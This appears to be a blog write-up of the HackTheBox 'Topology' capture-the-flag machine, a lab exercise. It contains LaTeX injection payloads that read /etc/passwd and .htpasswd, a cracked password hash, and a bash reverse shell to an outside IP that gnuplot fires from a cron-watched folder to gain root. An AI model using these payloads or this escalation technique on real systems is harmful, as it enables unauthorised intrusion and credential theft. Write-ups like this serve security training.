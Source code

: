 ```yaml
---
layout: post
title: Topology - Easy - Linux
date: 10-06-2023
categories: [CTF - HackTheBox]
tag: [LaTeX, Virtual Host, File Disclosure, gnuplot]
---
```


This machine was very frustrating due to the LaTeX syntax. First step was to enumerate virtual hosts and discover a host requiring basic authenication. The web application was a LaTeX equation generator which could be used to read files on the system. The path to user was clear however getting the Latex payload to read files was difficult. The .htpasswd file contained a $ character which caused the application to crash. Eventually after getting it working by using catcode commands to escape the bad character it was possible to read the contents of .htpasswd. It was possible to SSH onto the machine with the same credentials. Root was obtained by exploiting gnuplot.

### NMAP:

``` bash
# Nmap 7.93 scan initiated Sun Jun 11 07:56:59 2023 as: nmap -sC -sV -p- -oA nmap/topology-allports -v 10.129.174.210
Nmap scan report for 10.129.174.210
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Miskatonic University | Topology Group
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 11 07:57:46 2023 -- 1 IP address (1 host up) scanned in 46.98 seconds
```

### GOBUSTER VHOST:

``` bash
gobuster vhost -u http://topology.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://topology.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/06/13 20:43:21 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.topology.htb (Status: 401) [Size: 463]
Found: stats.topology.htb (Status: 200) [Size: 108]
```

### Web Browser - http://topology.htb

![db548ac40c093dbb90c5fbebc7d71476.png](/assets/img/db548ac40c093dbb90c5fbebc7d71476.png)

### Web Browser - http://dev.topology.htb

![84e0e089cffc64bae107e51d4696015e.png](/assets/img/84e0e089cffc64bae107e51d4696015e.png)

### Web Browser - http://stats.topology.htb

![ef9d36608ba1e6e0ea24a55377328598.png](/assets/img/ef9d36608ba1e6e0ea24a55377328598.png)

### Latex Payload:

The only service which appears to be exploitable is the Latex equation generator. The input is converted into a .png and displayed via the web browser.

After testing injection payloads I managed to find one which would read the first line of a file on the disk.

```bash
\newread\test \openin\test=/etc/passwd \read\test to\line \text{\line} \closein\test 
```

### Output:

![2a04a1948d0fd90b293ecef6b138af08.png](/assets/img/2a04a1948d0fd90b293ecef6b138af08.png)

### Improved Payload:

The vhost search shows Apache is requesting authentication for the dev subdomain. After trying to access the .htpasswd file the original payload would throw an error. This happens because the $ symbol is causing a conflict in the Latex generator logic.

The solution was to use catcode to escape the $ symbol as shown below. The payload was also improved upon to use fractions to display multiple lines.

```bash
\newcommand\io{\catcode`\$=11 \read\f to\l \text{\l}} \newread\f \openin\f=/var/www/dev/.htpasswd \frac{\io}{\io}
```

### Output:
![28df250b6dc2867baf9a8e644e0c8dbb.png](/assets/img/28df250b6dc2867baf9a8e644e0c8dbb.png)
### Cracked Hash:

```
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus*******
```

### SSH - vdaisley

The credentials extracted from the .htpasswd file allowed me to connect to the box via SSH and read the user flag.

```bash
vdaisley@topology:~$ ls -la
total 32
drwxr-xr-x 4 vdaisley vdaisley 4096 May 19 13:04 .
drwxr-xr-x 3 root     root     4096 May 19 13:04 ..
lrwxrwxrwx 1 root     root        9 Mar 13  2022 .bash_history -> /dev/null
-rw-r--r-- 1 vdaisley vdaisley  220 Jan 17 12:26 .bash_logout
-rw-r--r-- 1 vdaisley vdaisley 3771 Jan 17 12:26 .bashrc
drwx------ 2 vdaisley vdaisley 4096 May 19 13:04 .cache
drwx------ 3 vdaisley vdaisley 4096 May 19 13:04 .config
-rw-r--r-- 1 vdaisley vdaisley  807 Jan 17 12:26 .profile
-rw-r----- 1 root     vdaisley   33 Jun 13 15:42 user.txt
vdaisley@topology:~$ 
```

### Running pspy64

No sudo access. The /opt folder has some interesting files that I cannot read but write to. Running pspy showed the following processes running.

```bash
2023/06/13 15:56:00 CMD: UID=0    PID=1      | /sbin/init 
2023/06/13 15:56:01 CMD: UID=0    PID=1550   | /usr/sbin/CRON -f 
2023/06/13 15:56:01 CMD: UID=0    PID=1549   | /usr/sbin/CRON -f 
2023/06/13 15:56:01 CMD: UID=0    PID=1551   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/06/13 15:56:01 CMD: UID=0    PID=1554   | gnuplot /opt/gnuplot/loadplot.plt 
2023/06/13 15:56:01 CMD: UID=0    PID=1553   | /usr/sbin/CRON -f 
2023/06/13 15:56:01 CMD: UID=0    PID=1552   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/06/13 15:56:01 CMD: UID=0    PID=1560   | /bin/sh /opt/gnuplot/getdata.sh 
2023/06/13 15:56:01 CMD: UID=0    PID=1559   | tr -s   
2023/06/13 15:56:01 CMD: UID=0    PID=1558   | grep enp 
2023/06/13 15:56:01 CMD: UID=0    PID=1556   | /bin/sh /opt/gnuplot/getdata.sh 
2023/06/13 15:56:01 CMD: UID=0    PID=1555   | gnuplot /opt/gnuplot/networkplot.plt 
2023/06/13 15:56:01 CMD: UID=0    PID=1564   | /bin/sh /opt/gnuplot/getdata.sh 
2023/06/13 15:56:01 CMD: UID=0    PID=1563   | /bin/sh /opt/gnuplot/getdata.sh 
2023/06/13 15:56:01 CMD: UID=0    PID=1562   | /bin/sh /opt/gnuplot/getdata.sh 
2023/06/13 15:56:01 CMD: UID=0    PID=1561   | /bin/sh /opt/gnuplot/getdata.sh
```

### Permissions on /opt/gnuplot

```bash
vdaisley@topology:~$ ls -la /opt
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 May 19 13:04 ..
drwx-wx-wx  2 root root 4096 Jun  6 08:14 gnuplot
```

### Reverse shell saved to /tmp

Saving reverse shell to disk to keep the payload simple in the .plt file.

```bash
vdaisley@topology:/tmp$ cat payload 
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.29/9001 0>&1'
chmod +x payload
```

### Payload to execute reverse shell

I discovered gnuplot could execute system commands as seen below.

```bash
vdaisley@topology:/tmp$ cat launchpayload.plt 
system("bash /tmp/payload")
```

### Copy payload to /opt/gnuplot

I had write and execute permissions for the folder. Anything I put into this folder ending with .plt should be automatically read and executed by gnuplot. It should execute the system command within the .plt file I copy into the directory then execute the reverse shell with bash.

```
vdaisley@topology:/tmp$ cp launchpayload.plt /opt/gnuplot/
```

### Returned shell as root

```bash
listening on [any] 9001 ...
connect to [10.10.14.29] from (UNKNOWN) [10.129.210.155] 49454
bash: cannot set terminal process group (1788): Inappropriate ioctl for device
bash: no job control in this shell
root@topology:~# cat /root/root.txt
cat /root/root.txt
ffd43df9a6ae0f4369b6f92d1b99a1cb
root@topology:~# 
```